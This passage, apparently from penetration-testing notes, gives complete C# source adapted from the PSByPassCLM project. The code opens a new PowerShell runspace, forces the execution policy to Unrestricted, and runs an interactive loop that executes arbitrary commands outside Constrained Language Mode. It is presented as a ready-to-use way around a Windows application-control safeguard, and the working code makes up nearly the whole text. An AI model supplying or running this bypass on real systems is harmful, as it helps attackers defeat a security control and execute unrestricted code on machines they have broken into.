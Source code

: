 The following C# code snipped, adapted from
[`PSByPassCLM`](https://github.com/padovah4ck/PSByPassCLM), can be used to
emulate an interactive PowerShell console in a runspace unaffected by language
mode:

```
using System;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Collections.ObjectModel;
using System.Text;

namespace PowerShellConstrainedLanguageBypass {
    public class Program {
        public static void Main(string[] args) {
            Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();

            RunspaceInvoke runSpaceInvoker = new RunspaceInvoke(runspace);
            runSpaceInvoker.Invoke("Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process");

            string cmd = "";
            do {
                Console.Write("PS > ");
                cmd = Console.ReadLine();

                if (!string.IsNullOrEmpty(cmd)) {

                    using (Pipeline pipeline = runspace.CreatePipeline()) {

                        try {
                            pipeline.Commands.AddScript(cmd);
                            pipeline.Commands.Add("Out-String");

                            Collection<PSObject> results = pipeline.Invoke();
                            StringBuilder stringBuilder = new StringBuilder();

                            foreach (PSObject obj in results) {
                                stringBuilder.AppendLine(obj.ToString());
                            }

                            Console.Write(stringBuilder.ToString());
                        }

                        catch (Exception ex) {
                            Console.WriteLine("{0}", ex.Message);
                        }
                    }
                }
            } while (cmd != "exit");
        }
    }
}
```
